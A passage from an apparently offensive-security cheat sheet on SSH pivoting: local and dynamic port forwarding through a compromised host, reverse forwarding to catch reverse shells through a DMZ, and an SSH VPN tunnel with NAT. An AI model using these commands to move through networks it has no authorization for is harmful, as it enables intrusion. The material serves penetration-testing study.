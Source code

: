 Local port --> Compromised host (SSH) --> Third_box:Port

```bash
ssh -i ssh_key <user>@<ip_compromised> -L <attacker_port>:<ip_victim>:<remote_port> [-p <ssh_port>] [-N -f]  #This way the terminal is still in your host
#Example
sudo ssh -L 631:<ip_victim>:631 -N -f -l <username> <ip_compromised>
```

### Port2hostnet (proxychains)

Local Port --> Compromised host (SSH) --> Wherever

```bash
ssh -f -N -D <attacker_port> <username>@<ip_compromised> #All sent to local port will exit through the compromised server (use as proxy)
```

### Reverse Port Forwarding

This is useful to get reverse shells from internal hosts through a DMZ to your host:

```bash
ssh -i dmz_key -R <dmz_internal_ip>:443:0.0.0.0:7000 root@10.129.203.111 -vN
# Now you can send a rev to dmz_internal_ip:443 and capture it in localhost:7000
# Note that port 443 must be open
# Also, remmeber to edit the /etc/ssh/sshd_config file on Ubuntu systems
# and change the line "GatewayPorts no" to "GatewayPorts yes"
# to be able to make ssh listen in non internal interfaces in the victim (443 in this case)
```

### VPN-Tunnel

You need **root in both devices** (as you are going to create new interfaces) and the sshd config has to allow root login:\
`PermitRootLogin yes`\
`PermitTunnel yes`

```bash
ssh root@server -w any:any #This will create Tun interfaces in both devices
ip addr add 1.1.1.2/32 peer 1.1.1.1 dev tun0 #Client side VPN IP
ifconfig tun0 up #Activate the client side network interface
ip addr add 1.1.1.1/32 peer 1.1.1.2 dev tun0 #Server side VPN IP
ifconfig tun0 up #Activate the server side network interface
```

Enable forwarding on the Server side

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -s 1.1.1.2 -o eth0 -j MASQUERADE
```

Set a new route on the client side

```
route add -net 10.0.0.0/16 gw 1.1.1.1
```
